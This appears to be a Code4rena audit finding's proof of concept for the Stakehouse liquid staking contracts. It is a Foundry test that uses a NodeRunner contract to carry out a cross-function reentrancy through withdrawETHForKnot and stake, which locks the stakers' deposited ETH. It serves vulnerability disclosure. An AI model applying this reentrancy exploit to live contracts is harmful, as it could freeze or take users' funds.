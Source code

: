 Add the following imports to `LiquidStakingManager.t.sol`<br>
<https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12>

    import { NodeRunner } from "../../contracts/testing/liquid-staking/NodeRunner.sol";
    import { IDataStructures } from "@blockswaplab/stakehouse-contract-interfaces/contracts/interfaces/IDataStructures.sol";

Add the following test to `LiquidStakingManager.t.sol`<br>
<https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L121>

```
    function testLockStakersFunds() public {
        uint256 startAmount = 8 ether;
        // Create NodeRunner. Constructor registers two BLS Keys
        address nodeRunner = address(new NodeRunner{value: startAmount}(manager, blsPubKeyOne, blsPubKeyTwo, address(this)));
        
        // Simulate state transitions in lifecycle status to initials registered (value of 1)
        MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyOne, 1);

        // savETHUser, feesAndMevUser funds used to deposit into validator BLS key #1
        address feesAndMevUser = accountTwo; vm.deal(feesAndMevUser, 4 ether);
        address savETHUser = accountThree; vm.deal(savETHUser, 24 ether);
        
        // deposit savETHUser, feesAndMevUser funds for validator #1
        depositIntoDefaultSavETHVault(savETHUser, blsPubKeyOne, 24 ether);
        depositIntoDefaultStakingFundsVault(feesAndMevUser, blsPubKeyOne, 4 ether);

        // withdraw ETH for first BLS key and reenter
        // This will perform a cross-function reentracy to call stake
        vm.startPrank(nodeRunner);
        manager.withdrawETHForKnot(nodeRunner, blsPubKeyOne);
        // Simulate state transitions in lifecycle status to ETH deposited (value of 2)
        // In real deployment, when stake is called TransactionRouter.registerValidator is called to change the state to DEPOSIT_COMPLETE 
        MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyOne, 2);
        vm.stopPrank();
        
        // Validate mintDerivatives reverts because of banned public key 
        (,IDataStructures.ETH2DataReport[] memory reports) = getFakeBalanceReport();
        (,IDataStructures.EIP712Signature[] memory sigs) = getFakeEIP712Signature();
        vm.expectRevert("BLS public key is banned or not a part of LSD network");
        manager.mintDerivatives(
            getBytesArrayFromBytes(blsPubKeyOne),
            reports,
            sigs
        );

        // Validate depositor cannot burn LP tokens
        vm.startPrank(savETHUser);
        vm.expectRevert("Cannot burn LP tokens");
        savETHVault.burnLPTokensByBLS(getBytesArrayFromBytes(blsPubKeyOne), getUint256ArrayFromValues(24 ether));
        vm.stopPrank();
    }

```
